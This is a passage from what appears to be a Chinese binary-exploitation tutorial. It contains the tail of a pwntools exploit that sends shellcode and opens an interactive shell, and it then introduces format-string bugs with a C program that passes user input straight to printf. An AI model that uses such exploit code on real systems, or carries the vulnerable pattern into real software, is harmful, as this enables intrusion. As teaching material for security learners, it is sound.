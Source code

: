 ```py
sh.sendline(payload)
shellcode = asm(shellcraft.sh())
sh.sendline(shellcode)
sh.interactive()
```

> <img src="./img0/35.png">

## 格式化字符串

对于如下C代码

```c
#include <stdio.h>

int main() {
    char s[100];
    int a = 1, b = 0x22222222, c = -1;
    scanf("%s", s);
    printf("%08x %08x %08x %s\n", a, b, c, s);
    printf(s);
    
    return 0;
}
```

运行后能得到如下结果

> <img src="./img0/17.png">
